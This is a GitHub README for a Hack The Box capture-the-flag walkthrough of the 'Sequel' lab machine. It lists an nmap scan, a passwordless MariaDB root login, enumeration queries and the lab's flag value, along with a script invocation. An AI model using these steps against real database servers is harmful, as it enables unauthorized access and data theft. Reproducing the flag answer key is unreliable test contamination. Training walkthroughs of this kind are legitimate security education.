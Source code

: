 # HTB “Sequel” MariaDB Exploit

Directly access the MariaDB service on the Sequel machine to enumerate and retrieve the flag.

## Quick Start

```
git clone https://github.com/keyfive5/obsidiansignal-htb-sequel.git
cd obsidiansignal-htb-sequel
bash scripts/enum-mysql.sh 10.129.28.113
```

# Prerequisites
mysql-client (MariaDB or MySQL)

HTB VPN connection

# Repo Layout
writeup/ – Markdown & PDF report

scripts/enum-mysql.sh – Bash automation

screenshots/ – proof of each step

articles/ – Dev.to markdown

# Lab Steps
Scan: nmap -sC -sV -p3306 $IP

# Connect: mysql --ssl -h $IP -u root --skip-ssl

Enumerate:

SHOW DATABASES;
USE htb;
SHOW TABLES;
SELECT * FROM config;
Flag: 7b4bec00d1a39e3dd4e021ec3d915da8

Connect
Dev.to: https://dev.to/keyfive5

Twitter: https://twitter.com/keyfive5

LinkedIn: [Linkedin](https://www.linkedin.com/in/mz-cs/)

“Looking for paid DB pentests or cloud‑infra security engagements? Let’s chat!”

